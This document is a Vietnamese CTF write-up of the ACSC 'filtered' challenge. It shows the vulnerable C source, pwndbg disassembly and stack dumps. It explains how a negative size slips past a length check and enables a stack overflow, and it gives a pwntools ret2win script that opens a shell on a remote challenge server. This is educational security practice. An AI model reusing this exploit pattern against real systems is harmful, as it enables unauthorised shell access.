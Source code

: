 # ACSC CTF

## filtered

Tải chall về , giải nén ra chúng ta thấy được 1 file thực thi và 1 file source c như sau: 

```
void win(void) {
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
  exit(0);
}

/* Print `msg` */
void print(const char *msg) {
  write(1, msg, strlen(msg));
}

/* Print `msg` and read `size` bytes into `buf` */
void readline(const char *msg, char *buf, size_t size) {
  char c;
  print(msg);
  for (size_t i = 0; i < size; i++) {
    if (read(0, &c, 1) <= 0) {
      print("I/O Error\n");
      exit(1);
    } else if (c == '\n') {
      buf[i] = '\0';
      break;
    } else {
      buf[i] = c;
    }
  }
}

/* Print `msg` and read an integer value */
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}

/* Entry point! */
int main() {
  int length;
  char buf[0x100];

  /* Read and check length */
  length = readint("Size: ");
  if (length > 0x100) {
    print("Buffer overflow detected!\n");
    exit(1);
  }

  /* Read data */
  readline("Data: ", buf, length);
  print("Bye!\n");

  return 0;
}


```

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040131b <+0>:	endbr64 
   0x000000000040131f <+4>:	push   rbp
   0x0000000000401320 <+5>:	mov    rbp,rsp
   0x0000000000401323 <+8>:	sub    rsp,0x110
   0x000000000040132a <+15>:	lea    rdi,[rip+0xce6]        # 0x402017
   0x0000000000401331 <+22>:	call   0x4012e5 <readint>
   0x0000000000401336 <+27>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000401339 <+30>:	cmp    DWORD PTR [rbp-0x4],0x100
   0x0000000000401340 <+37>:	jle    0x401358 <main+61>
   0x0000000000401342 <+39>:	lea    rdi,[rip+0xcd5]        # 0x40201e
   0x0000000000401349 <+46>:	call   0x401217 <print>
   0x000000000040134e <+51>:	mov    edi,0x1
   0x0000000000401353 <+56>:	call   0x4010e0 <exit@plt>
   0x0000000000401358 <+61>:	mov    eax,DWORD PTR [rbp-0x4]
   0x000000000040135b <+64>:	movsxd rdx,eax
   0x000000000040135e <+67>:	lea    rax,[rbp-0x110]
   0x0000000000401365 <+74>:	mov    rsi,rax
   0x0000000000401368 <+77>:	lea    rdi,[rip+0xcca]        # 0x402039
   0x000000000040136f <+84>:	call   0x40124a <readline>
   0x0000000000401374 <+89>:	lea    rdi,[rip+0xcc5]        # 0x402040
   0x000000000040137b <+96>:	call   0x401217 <print>
   0x0000000000401380 <+101>:	mov    eax,0x0
   0x0000000000401385 <+106>:	leave  
   0x0000000000401386 <+107>:	ret    
End of assembler dump.
pwndbg> 


```
Sau khi đọc đoạn code này thì chúng ta có thể thấy được flow của chương trình như sau : 

	+ Khai báo size của buf để viết dữ liệu, có điều kiện ràng buộc như sau size < 0x100
	+ Ghi dữ liệu từ rsp và không thể ghi quá size đã khai báo trước đó.

==> Có 2 hướng khai thác tiềm năng như sau: 

Format String
```
void print(const char *msg) {
  write(1, msg, strlen(msg));
}
void readline(const char *msg, char *buf, size_t size) {
  char c;
  print(msg);
  for (size_t i = 0; i < size; i++) {
    if (read(0, &c, 1) <= 0) {
      print("I/O Error\n");
      exit(1);
    } else if (c == '\n') {
      buf[i] = '\0';
      break;
    } else {
      buf[i] = c;
    }
  }
}
```
Hàm này sử dụng print(msg) nếu như mình kiểm soát được biến msg thì có khả năng sử dụng format string, tuy nhiên msg đầu vào lại là 1 chuỗi cố định nên không thể khai thác.

BuffOverflow : chúng ta có thể lợi dụng lỗ hổng này có để có thể ghi đè lên lên stack :33 cách này khả thi nhất. Nhưng lại bị giới hạn bới điều kiện size, chỉ cần bypass qua được thì sẽ có thể exploit


------------------------------------------------------------------------------------



Chúng ta bắt đầu debug như sau:

Đầu tiên xác định vị trí lưu trữ địa chỉ sẽ ret về, nên đặt breakpoint ngay tại lênh ret.

```
pwndbg> b*0x401386
Breakpoint 1 at 0x401386
pwndbg> r
Starting program: /home/datnlq/CTF/ASIACTF/filtered/distfiles/filtered 
Size: 256
Data: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Bye!

Breakpoint 1, 0x0000000000401386 in main ()

```
Khi breakpoint dừng tại ret chúng ta kiểm tra rsp sẽ có được giá trị của old rbp.
```
pwndbg> x/x $rsp
0x7fffffffde38:	0xf7a2d840

```

Tiếp tục đặt breakpoint ở leave để xác định vị trí lưu trữ old rbp trong stack.
```
pwndbg> b*0x0000000000401385
Breakpoint 2 at 0x401385
pwndbg> r
Starting program: /home/datnlq/CTF/ASIACTF/filtered/distfiles/filtered 
Size: 10
Data: aaaaa
Bye!

```
```
pwndbg> x/100x $rsp
0x7fffffffdd20:	0x61616161	0x00000061	0xffffdd60	0x00007fff
0x7fffffffdd30:	0x00000340	0x00000000	0xffffdd50	0x00007fff
0x7fffffffdd40:	0x6562b026	0x00000000	0xf7b99727	0x00007fff
0x7fffffffdd50:	0xffffffff	0x00000000	0xf7ffe718	0x00007fff
0x7fffffffdd60:	0xf7ffa280	0x00007fff	0xf7ffe700	0x00007fff
0x7fffffffdd70:	0xffffdd01	0x00007fff	0x519230f2	0x00000ddd
0x7fffffffdd80:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdd90:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdda0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffddb0:	0xffffdf28	0x00007fff	0x00000000	0x00000000
0x7fffffffddc0:	0x00000001	0x00000000	0xffffdf28	0x00007fff
0x7fffffffddd0:	0x00000001	0x00000000	0xffffde50	0x00007fff
0x7fffffffdde0:	0xf7ffe168	0x00007fff	0x00000000	0x00000000
0x7fffffffddf0:	0xffffdf18	0x00007fff	0x004013dd	0x00000000
0x7fffffffde00:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde10:	0x00401390	0x00000000	0x004010f0	0x00000000
0x7fffffffde20:	0xffffdf10	0x00007fff	0x00000000	0x0000000a
0x7fffffffde30:	0x00401390	0x00000000	0xf7a2d840	0x00007fff
0x7fffffffde40:	0xffffdf18	0x00007fff	0xffffdf18	0x00007fff
0x7fffffffde50:	0xf7b99708	0x00000001	0x0040131b	0x00000000
0x7fffffffde60:	0x00000000	0x00000000	0x3f09aed7	0x4329b3bf
0x7fffffffde70:	0x004010f0	0x00000000	0xffffdf10	0x00007fff
0x7fffffffde80:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde90:	0xa4a9aed7	0xbcd64cc0	0xb7d9aed7	0xbcd65c7a
0x7fffffffdea0:	0x00000000	0x00000000	0x00000000	0x00000000
pwndbg> 


```
Từ những dữ kiện trên chúng ta tính được từ rsp đến vị trí của old rbp phải ghi đè hết 280 bytes, tuy nhiên size max mà hàm cho phép lại là 256(0x100).

Tuy nhiên điều kiện là size < 0x100 vậy có nghĩa là chúng ta có thể sử dụng số âm. Như vậy đã tìm ra cách bypass điều kiện này thì chúng ta đã có thể exploit như sau : 

Tìm kiếm địa chỉ hàm win 
```
pwndbg> p*win
$1 = {<text variable, no debug info>} 0x4011d6 <win>


```
Sau đó chúng ta có file exploit như sau:

```
from pwn import *


BIN = "./filtered"
win = 0x4011d6
ret = 0x000000000040101a
def exploit():
	payload = b"a"*280 + p64(ret) + p64(win)
	# _breakpoint="""
	# 	b*0x401386
	# 	"""
	# gdb.attach(io,_breakpoint)
	io.recvuntil("Size:")
	io.sendline("-1")
	io.recvuntil("Data:")
	io.sendline(payload)
	io.interactive()

#io = process(BIN)
io = remote("167.99.78.201", 9001)
# context.log_level = "debug"
exploit()


```
